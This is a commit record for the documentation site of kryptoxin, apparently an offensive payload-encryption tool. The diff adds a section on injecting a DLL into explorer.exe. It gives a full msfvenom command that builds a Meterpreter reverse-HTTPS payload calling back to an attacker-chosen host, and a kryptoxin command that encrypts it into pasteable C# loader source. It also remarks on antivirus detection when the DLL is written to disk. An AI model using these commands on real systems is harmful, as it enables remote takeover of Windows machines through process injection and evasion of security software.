

Before and after one commit to e3prom/kryptoxin, an MkDocs documentation site: the page built from docs/csharp.md, in a window 1280 px wide and 900 px high, scrolled down 729 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 1179 px from its top, so only the background shows below that.

Commit message:
Updated documentation

````diff
--- a/docs/csharp.md
+++ b/docs/csharp.md
@@ -34,3 +34,20 @@ class Program // (1)!
 
 1. The class generated must be imported in a `C# .NET Console Program` project.
 2. The main entry point is `Main()`, the latter will call the decoding and decryption routines.
+
+## DLL Process Injection (`load-dll`)
+
+This .NET console program injects a DLL such a those generated by the metasploit's msfvenom utility, into the `explorer.exe` process.
+
+???+ warning "The .DLL file is written to the target's disk unencrypted"
+    This C# console program uses the `LoadLibraryA()` Windows API function, which require a library file stored on the disk.
+    Therefore it will write the decrypted DLL onto the host's hard disk, allowing for potential anti-virus detection.
+
+The example below encrypt the `msf.dll` generated by msfvenom and output a C# console program source code that can be readily pasted into a Microsoft Visual Studio project.
+
+``` sh
+msfvenom -p windows/x64/meterpreter/reverse_https LHOST=w.x.y.z LPORT=443 EXITFUNC=thread -f dll -o msf.dll
+```
+``` sh
+$ python -m kryptoxin encrypt -k 123456 --random-iv --random-salt --lang csharp --action load-dll --in msf.dll
+```
````
